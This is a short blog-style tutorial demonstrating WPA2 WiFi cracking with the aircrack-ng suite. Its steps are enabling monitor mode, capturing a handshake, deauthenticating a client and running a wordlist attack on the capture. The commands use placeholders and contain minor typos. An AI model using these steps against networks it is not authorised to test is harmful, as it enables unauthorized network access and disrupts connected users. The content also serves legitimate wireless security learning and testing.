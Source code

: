 ```yaml
---
title: Demo Crack WPA2 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Wifi, Crack WPA2]
tags: [Crack WPA2] 

image:
  path: /assets/img/wifi/demo/logo.jpg
#   alt: image alternative text
---
```

In this post , I will simulate the process of cracking WPA2.

- Start monitor mode
```shell
sudo airmon-ng start wlan0
```
![image](/assets/img/wifi/demo/start.png)

- View bssid (BSSID) and channel (CH) the device we need crack
![image](/assets/img/wifi/demo/view.png)

- Capture packet of the device
```shell
sudo airodump-ng -w <capture_name> -c <channel> --bssid <bssid_device> <interface>
```
![image](/assets/img/wifi/demo/capture.png)

- Deauthen client
```shell
sudo aireplay-ng -0 <number_frame> -a <ssid_device> -c <MAC_Client> <interface>
```
![image](/assets/img/wifi/demo/deauthen.png)

- Crack passwd
```shel
sudo aircrack-ng <capture_name> -w <wordlist
```
![image](/assets/img/wifi/demo/crack.png)